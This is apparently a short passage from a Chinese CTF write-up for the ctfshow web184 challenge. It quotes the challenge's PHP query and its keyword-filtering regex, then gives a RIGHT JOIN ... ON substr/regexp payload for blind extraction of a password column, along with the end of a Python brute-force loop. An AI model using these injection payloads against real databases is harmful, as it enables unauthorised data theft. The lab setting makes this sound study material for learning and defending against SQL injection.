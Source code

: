 ```python
            # print(response.text)
            # print(j)
            flag += j
            break
    print(flag)
    if '}' in flag:
        break
```

## web184~right join...on注入过字母

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
>   $sql = "select count(*) from ".$_POST['tableName'].";";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
>   function waf($str){
>     return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
>   }
> 
>       
> ```
>
> 查询结果
>
> ```
> //返回用户表的记录总数
>       $user_count = 0;
>       
> ```
>
> ------

过滤了 `where` 、双引号、单引号

* 使用 [right join](https://www.runoob.com/sql/sql-join-right.html)

  RIGHT JOIN 关键字从右表（table2）返回所有的行，即使左表（table1）中没有匹配。如果左表中没有匹配，则结果为 NULL。

* on 条件是在生成临时表时使用的条件，它不管 ON 中的条件是否为真，都会返回左边表中的记录；

传参 

```
tableName=ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,1,1)regexp(chr(102)))
```
